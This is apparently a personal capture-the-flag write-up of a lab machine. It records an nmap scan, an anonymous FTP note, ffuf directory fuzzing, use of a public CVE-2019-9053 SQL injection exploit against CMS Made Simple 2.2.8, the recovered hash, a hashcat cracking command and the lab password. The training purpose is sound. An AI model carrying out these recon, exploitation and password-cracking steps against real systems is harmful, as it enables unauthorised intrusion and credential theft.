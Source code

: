 <mark style="background: #BBFABBA6;">Nmap scan report:</mark>


─(root💀kali)-[~]
└─# nmap -sT -sV 10.10.166.158
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 20:09 IST
Nmap scan report for 10.10.166.158
Host is up (0.14s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.39 seconds


<mark style="background: #BBFABBA6;">FTP:</mark> 
tp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub


Found a file called Formitch.txt

Contents:

──(root💀kali)-[~]
└─# cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!



<mark style="background: #BBFABBA6;">HTTP:</mark>

since http port is open and apache2 service is running i'll try to  find a web directory using ffuf


─(root💀kali)-[~]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.166.158/FUZZ 



Found a directory  - /simple

http://10.10.166.158/simple


Found this on the direcorty:

Copyright 2004 - 2023 - CMS Made Simple  
This site is powered by [CMS Made Simple](http://www.cmsmadesimple.org) version 2.2.8

Used below resource for exploitation of the vulnerability

https://github.com/pedrojosenavasperez/CVE-2019-9053-Python3


Get the below result after running the exploit on the target machine

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d966

```

I should have been able to crack the password using below command

```
sudo hashcat -m 10 -a 0  hash.txt /usr/share/wordlists/rockyou.txt

```

But iwas getting some errors so i got it from the writeup

password - secret

And after logging into SSH remiaining flags and questions were quite easy